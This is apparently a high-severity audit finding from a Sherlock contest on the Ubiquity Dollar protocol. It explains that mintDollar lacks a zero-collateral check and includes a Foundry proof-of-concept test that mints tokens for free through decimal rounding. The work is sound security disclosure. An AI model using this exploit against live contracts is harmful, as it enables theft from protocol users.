 Early Garnet Otter

high

# mintDollar: Free minting of dollar token is available

## Summary

Because there is no check if `collateralNeeded` is zero, the dollar token can minted for free.

## Vulnerability Detail

`LibUbiquityPool.mintDollar` does not check if `collateralNeeded` is zero. This allows attacker to mint dollar token for free without using any collateral when collateral’s decimal is less than dollar token. Also, even if the collateral and dollar token have the same decimal, the same problem can occur if the `collateralPrices` is high.

This vulnerability also allows attacker to mint dollar tokens when the `poolCeilings` is reached. 

```solidity
function mintDollar(
    uint256 collateralIndex,
    uint256 dollarAmount,
    uint256 dollarOutMin,
    uint256 maxCollateralIn
)
    internal
    collateralEnabled(collateralIndex)
    returns (uint256 totalDollarMint, uint256 collateralNeeded)
{
    ...

    // get amount of collateral for minting Dollars
@>  collateralNeeded = getDollarInCollateral(collateralIndex, dollarAmount);

    // subtract the minting fee
    totalDollarMint = dollarAmount
        .mul(
            UBIQUITY_POOL_PRICE_PRECISION.sub(
                poolStorage.mintingFee[collateralIndex]
            )
        )
        .div(UBIQUITY_POOL_PRICE_PRECISION);

    // check slippages
    require((totalDollarMint >= dollarOutMin), "Dollar slippage");
@>  require((collateralNeeded <= maxCollateralIn), "Collateral slippage");

    // check the pool ceiling
@>  require(
        freeCollateralBalance(collateralIndex).add(collateralNeeded) <=
            poolStorage.poolCeilings[collateralIndex],
        "Pool ceiling"
    );

    // take collateral first
@>  IERC20(poolStorage.collateralAddresses[collateralIndex])
        .safeTransferFrom(msg.sender, address(this), collateralNeeded);

    // mint Dollars
    IERC20Ubiquity ubiquityDollarToken = IERC20Ubiquity(
        LibAppStorage.appStorage().dollarTokenAddress
    );
@>  ubiquityDollarToken.mint(msg.sender, totalDollarMint);
}

function getDollarInCollateral(
    uint256 collateralIndex,
    uint256 dollarAmount
) internal view returns (uint256) {
    UbiquityPoolStorage storage poolStorage = ubiquityPoolStorage();
    return
        dollarAmount
            .mul(UBIQUITY_POOL_PRICE_PRECISION)
@>          .div(10 ** poolStorage.missingDecimals[collateralIndex])
@>          .div(poolStorage.collateralPrices[collateralIndex]);
}
```

This is PoC.

1. First, fix MockERC20.sol because there is an error in MockERC20. The original MockERC20 does not set decimals and uses a fixed value of 18, so fix that.
    
    ```diff
    // SPDX-License-Identifier: AGPL-3.0-only
    pragma solidity 0.8.19;
    
    import {ERC20} from "@openzeppelin/contracts/token/ERC20/ERC20.sol";
    
    contract MockERC20 is ERC20 {
    +   uint8 public decimals_;
    
        constructor(
            string memory _name,
            string memory _symbol,
            uint8 _decimals
        ) ERC20(_name, _symbol) {
    +       decimals_ = _decimals;
        }
    
    +    function decimals() public view override returns (uint8){
    +       return decimals_;
    +    }
    
        function mint(address to, uint256 value) public virtual {
            _mint(to, value);
        }
    
        function burn(address from, uint256 value) public virtual {
            _burn(from, value);
        }
    }
    ```
    
2. In the `setUp` function of the UbiquityPoolFacet.t.sol file, change the decimal of the collateral token to be smaller.
    
    ```diff
    function setUp() public override {
        super.setUp();
    
        vm.startPrank(admin);
    
        // init collateral token
    -   collateralToken = new MockERC20("COLLATERAL", "CLT", 18);
    +   collateralToken = new MockERC20("COLLATERAL", "CLT", 6);
    
        ...
    }
    ```
    
3. Add the following test to UbiquityPoolFacet.t.sol and run it.
    
    ```solidity
    function testMintDollar_PoCShouldMintDollarsForFree() public {
        vm.prank(admin);
        ubiquityPoolFacet.setPriceThresholds(
            1000000, // mint threshold
            990000 // redeem threshold
        );
    
        // balances before
        assertEq(collateralToken.balanceOf(address(ubiquityPoolFacet)), 0);
        assertEq(dollarToken.balanceOf(user), 0);
    
        vm.prank(user);
        (uint256 totalDollarMint, uint256 collateralNeeded) = ubiquityPoolFacet
            .mintDollar(
                0, // collateral index
                999999999999, // Dollar amount
                0, // min amount of Dollars to mint
                0 // max collateral to send
            );
    
        LibUbiquityPool.CollateralInformation memory info = ubiquityPoolFacet
            .collateralInformation(address(collateralToken));
        assertEq(info.missingDecimals, 12);
    
        assertEq(totalDollarMint, 989999999999);
        assertEq(collateralNeeded, 0);
    
        // balances after
        assertEq(collateralToken.balanceOf(address(ubiquityPoolFacet)), 0);
        assertEq(dollarToken.balanceOf(user), 989999999999);
    }
    ```
    

## Impact

Dollar tokens can be minted for free. The larger the decimal difference between the collateral and the dollar token, and the higher the price of the collateral token, the more dollar tokens can be minted for free.

This vulnerability also allows attacker to mint dollar tokens when the `poolCeilings` is reached.

## Code Snippet

[https://github.com/sherlock-audit/2023-12-ubiquity/blob/d9c39e8dfd5601e7e8db2e4b3390e7d8dff42a8e/ubiquity-dollar/packages/contracts/src/dollar/libraries/LibUbiquityPool.sol#L355](https://github.com/sherlock-audit/2023-12-ubiquity/blob/d9c39e8dfd5601e7e8db2e4b3390e7d8dff42a8e/ubiquity-dollar/packages/contracts/src/dollar/libraries/LibUbiquityPool.sol#L355)

[https://github.com/sherlock-audit/2023-12-ubiquity/blob/d9c39e8dfd5601e7e8db2e4b3390e7d8dff42a8e/ubiquity-dollar/packages/contracts/src/dollar/libraries/LibUbiquityPool.sol#L368-L379](https://github.com/sherlock-audit/2023-12-ubiquity/blob/d9c39e8dfd5601e7e8db2e4b3390e7d8dff42a8e/ubiquity-dollar/packages/contracts/src/dollar/libraries/LibUbiquityPool.sol#L368-L379)

## Tool used

Manual Review

## Recommendation

revert when `collateralNeeded` is 0